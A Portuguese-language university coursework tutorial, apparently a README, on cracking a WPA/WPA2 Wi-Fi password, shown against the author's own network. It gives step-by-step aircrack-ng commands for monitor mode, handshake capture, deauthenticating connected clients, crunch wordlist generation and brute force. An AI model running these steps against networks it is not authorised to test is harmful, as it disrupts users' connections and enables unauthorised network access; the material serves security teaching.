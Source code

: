 # Tutorial - Wi-Fi Cracking WPA/WPA2 (Brute Force)

## Introdução
Este tutorial tem o propósito de ilustrar, de maneira prática, de como ter o acesso de uma rede Wifi protegida com os métodos de criptográfia WPA/WPA2. Este tutorial foi desenvolvido como trabalho final para a mateŕia de Segurança e Auditoria de Sistemas, na Universidade Tecnológica Federal do Paraná (UTFPR-CP). Em um breve resumo, faremos um ataque de força bruta em cima de uma captura de pacotes, obtidos monitorando o tráfego da rede. Esse ataque é realizado com uma lista de possíveis senhas daquela rede Wifi.

__ATENÇÃO: Este tutorial foi realizado para fins educacionais, e não deve ser utilizada para atividades ilegais. O autor não é responsabilizado pelo uso indevido do mesmo__

## Pré requisitos

Neste tutorial será necessário que você:
- Esteja usando uma distro linux baseada no debian, de preferência o [Kali linux](https://www.kali.org/).
- Ter o [Aircrack-ng](http://aircrack-ng.org/) e o Crunch instalado em seu computador. Para instalar, use o seguintes comandos:
	Para instalar o Aircrack-ng 
	 ```
	 sudo apt-get install aircrack-ng
	 ```
    Para instalar o Crunch
    ```
    sudo apt-get install crunch
    ```
- Ter uma placa de rede sem fio que suporta o modo monitor. [Aqui](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html) uma lista das placas de redes sem fio que suportam o modo monitor (Normalmente os todos notebooks suportam o modo monitor.)

## Tutorial

### Modo monitor
As placas de rede permitem alguns modos diferentes de operação. que são eles: *Master* (Atua como access point), *Managed* (cliente padrão), *Ad hoc*, *Mesh*, *Repeater*, *Promiscuous*, e o *Monitor mode*. Utilizaremos nossa placa de rede no modo monitor, em que ela permite que seu computador monitore todo o tráfego recebido da rede sem fio. Ao contrário do modo promíscuo, o modo monitor consegue capturar os pacotes sem estar associado a um access point.
Primero passo, precisamos listar as interfaces de rede de seu computador, para isso digite o seguinte comando:

```bash
sudo airmon-ng
```
Com isso, aparecerá algo parecido com isto em seu terminal:
```
Interface   	Chipset	        	Driver
wlan0	    	Atheros AR9485	    ath9k - [phy0]
```

Caso não liste nada, sua placa de rede não suporta o modo monitor. 

No meu caso, o nome da minha interface wireless é `wlan0`. No seu caso pode ser diferente, mas para o termino deste tutorial iremos utilizar a `wlan0`. Para iniciarmos o modo monitor basta digitar no terminal o seguinte comando:

```
sudo airmon-ng start wlan0
```

Neste momento, poderá dar um erro avisando que alguns processos que estão rodando poderão causar problemas. Para isso, você precisará usar o seguinte comando:

```
sudo airmon-ng check kill
```

Para confirmar se temos o modo monitor iniciado, é só utilizar o seguinte comando no terminal:

```
iwconfig
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:
```
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          
lo        no wireless extensions.

enp2s0    no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

### Encontrando seu alvo

Para iniciarmos a escuta da rede, utilizaremos o seguinte comando abaixo:

```bash
sudo airodump-ng mon0
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:

```
 CH  4 ][ Elapsed: 8 s ][ 2017-11-19 00:09                                         
                                                                                                                                                                         
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                         
 EC:4D:47:B3:F5:88  -65       90     3579  346   1  54e  WPA2 CCMP   PSK  MinhaCasa                                                                                    
 A0:F3:C1:BC:9E:2B  -85       67        0    0   1  54e. WPA2 CCMP   PSK  Sadi Isper                                                                                     
                                                                                                                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                               
                                                                                                                                                                          
 (not associated)   8C:FA:BA:E4:A3:69  -80    0 - 1      0        2                                                                                                       
 (not associated)   C0:21:0D:DD:30:DF  -89    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  24:F5:AA:66:5A:54   -1    0e- 0      0     1878                                                                                                       
 EC:4D:47:B3:F5:88  F8:E0:79:C2:DE:17  -40    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  1C:87:2C:93:1C:AC  -53    0e- 0   1101     1716                                                                                                       
 EC:4D:47:B3:F5:88  14:1A:A3:FC:E7:E9  -78    0 - 6      0        1    
```

Como este tutorial foi feito para fins educacionais, a rede que iremos atacar é a que tem ESSID (nome da rede Wifi) é a "MinhaCasa", por motivos de eu ser o dono da rede. Para o próximo passo, precisaremos de duas informações desta etapa, o BSSID (Endereço MAC da rede) e o canal em que está sendo utilizado. No nosso caso, as informações serão as seguinte:
 - BSSID: `EC:4D:47:B3:F5:88`
 - CH (canal): `1`

### Capturando o Handshake

As redes que utiizam criptográfia WPA/WPA2 utilizam o "4-way handshake". O que precisamos saber neste momento é que para a conexão entre access point e cliente,é necessário uma série de quatro pacotes é usada para negociar uma chave criptográfica, que será utilizada para criptografar o processo de autenticação. Coletando estes pacotes, podemos conseguir a senha da rede Wifi. Para começar a captura dos pacotes, utilizaremos os seguintes comandos:
    
```bash
## -c: Canal em que se encontra a rede
## --bssid: Endereço MAC do access point
## -w: Diretório que ficará salvo a captura dos pacotes

sudo airodump-ng -c 1 --bssid EC:4D:47:B3:F5:88 -w . mon0
```Para que a conexão entre cliente e access point seja desconectada, nos passaremos pelo access point e enviaremos frames (unidade de dados na camada de enlace) para os clientes. Os principais tipos de frames são os *Data Frames*(para transmissão de dados), *Control Frames*(controle de acesso do meio) e os *Management frames*(possuem informações de gerenciamento). Dentro dos *Management frames*, existe um frame que tem o nome de *Deauthentication*, que serve para desconectar de forma segura os dispositivos na rede. Como as informações estão sendo capturadas no passo anterior, iremos desautenticar o dispositivo da rede (faremos este passo em outro terminal), utilizando este frame. Utilizaremos o seguinte comando para que isso aconteça:

```bash
## -0 2 : enviará dois pacotes "deauth". (Isso irá desconectar o cliente da rede wifi por alguns instantes)
## -a: Endereço MAC do access point
## -c: O Endereço MAC do dispositivo em específico, que será utilizado para obter o "Handshake". 
## Caso queira mandar para todos os dispositivos da rede, é só não utilizar o argumento -c, como no exemplo abaixo:
sudo aireplay-ng -0 2 -a EC:4D:47:B3:F5:88 mon0
```

Caso conseguirmos os pacotes do Handshake, irá aparecer no primeiro terminal algo parecido com`WPA handshake: 00:00:00:00:00`.Portanto, podemos parar de capturar os pacotes, apertando `Ctrl+C`. Os pacotes ficaram salvos como nome de `.-01.cap`(o arquivo ficará oculto). Neste tutorial, iremos trocar o nome para 'mypackages.cap'.

### Criando a Wordlist
Na criação de uma wordlist, é interessante que se conheça o alvo atacado, criando assim uma wordlist específica para aquele alvo. Para este tutorial, criaremos uma wordlist que conterá somente números,tendo no total de 8 caracteres de tamanho.
Para criar a wordlist utilizaremos o crunch. O primeiro argumento será o número mínimo de caracteres que queremos nossa senha. O segundo argumento será o número máximo de caracteres que queremos nossa senha. O terceiro argumento será os caracteres que queremos combinar na nossa senha. Sabemos que o número mínimo de caracteres em uma senha WPA2 é de 8 caracteres, portanto criaremos uma wordlist que cobrirá todos os números de 8 caracteres (00000000 até 99999999). Para isso o usaremos o seguinte comando no terminal:

```bash
## -o: nome do arquivo de saída

crunch 8 8 0123456789 -o mywordlist.txt
```

Para wordlist mais elaboradas, digite no terminal `man crunch`.
### Obtendo a senha

Como no passo anterior já criamos uma wordlist para o ataque, utilizaremos o seguinte comando no terminal

```bash
## -a2: Especificando que a rede é WPA2
## -b: Endereço MAC do access point 
## -w: A wordlist criada
aircrack-ng -a2 -b EC:4D:47:B3:F5:88 -w mywordlist.txt mypackages.cap
```

Neste momento, começará o ataque por força bruta nos pacotes capturados. Quando a senha na wordlist for a senha desejada, irá aparecer no terminal algo parecido com isso, informando a senha da rede Wifi:

```
                                 Aircrack-ng 1.2 beta3


                   [00:00:12] 1414 keys tested (1017.96 k/s)


                         KEY FOUND! [ 00001414 ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```
